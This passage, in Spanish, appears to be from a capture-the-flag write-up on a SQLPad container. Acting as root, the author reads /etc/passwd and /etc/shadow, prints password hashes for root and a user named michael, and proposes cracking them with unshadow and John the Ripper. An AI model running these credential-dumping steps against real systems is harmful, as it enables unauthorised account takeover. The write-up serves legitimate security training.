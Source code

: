 Listo el contenido que existen el directorio acutal y puedo ver un archivo curioso llamado sqlpad.sqlite, al listar su contenido a simple vista no observo ninguna fuga de información

```bash
root@c184118df0a6:/var/lib/sqlpad# ls
cache
sessions
sqlpad.sqlite
```
Otra opción es intentar dumpear las credenciales de los usuarios fusionando con unshadow los archivos /etc/passwd y /etc/shadow e intentar creackear los hashes con John The Ripper

```bash
root@c184118df0a6:/var/lib/sqlpad#cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash
```

```bash
root@c184118df0a6:/var/lib/sqlpad# cat /etc/shadow
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```
